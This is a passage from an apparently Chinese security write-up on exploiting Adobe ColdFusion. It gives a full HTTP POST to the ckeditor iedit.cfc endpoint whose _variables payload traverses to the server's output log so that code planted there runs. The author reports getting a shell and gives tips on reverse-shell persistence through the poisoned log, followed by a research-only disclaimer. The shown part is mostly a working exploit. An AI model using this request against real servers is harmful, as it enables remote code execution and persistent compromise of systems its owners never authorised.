 然后执行日志里面的代码，固定的写死的直接发送  
```
POST //cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=zfgea&_cfclient=trueHTTP/1.1
Host: 192.168.56.105:8500
User-Agent: Mozilla/5.0(Macintosh;IntelMac OS X 10_14_3)AppleWebKit/605.1.15(KHTML, like Gecko)Version/12.0.3Safari/605.1.15
Content-Length: 85
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

_variables={"_metadata":{"classname":"l/../logs/coldfusion-out.log"},"_variables":[]}
```  
  
执行看一下，上线了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b76VA5DEYFBb9aiabDGjVs8fj0aOvQny7iaHwib6vcKxMxl86z9yz0XuiaDue8GaL6B3ZFs5UM1vmK2nHBlrjj8pFA/640?wx_fmt=png&from=appmsg "null")  
# 坑  
  
我这个经过多次测试发现，读取回显可能每个版本和系统是有差别的，有的可以回显示有的无法回显，有的可以反弹有的不行  
  
反弹可能写入日志后可能会导致每次启动都会加载这个日志去请求你的服务器，还有可能只能反弹一次就不能在反弹了都是有可能的  
  
## 免责声明  
  
\1. 该安全文章/工具仅供技术研究和教育用途。使用该工具时，请遵守适用的法律法规和道德准则。  
  
\2. 该文章/工具可能会涉及安全漏洞的测试和渗透测试，但请在授权的范围内使用，否则和作者无关。  
  
\3. 使用该文章/工具可能会涉及到一定的风险和不确定性，用户应该自行承担使用该工具所带来的风险。  
  
\4. 使用本文章/工具的用户应自行承担一切风险和责任。开发者对于用户使用本工具所产生的后果不承担任何责任。  
  
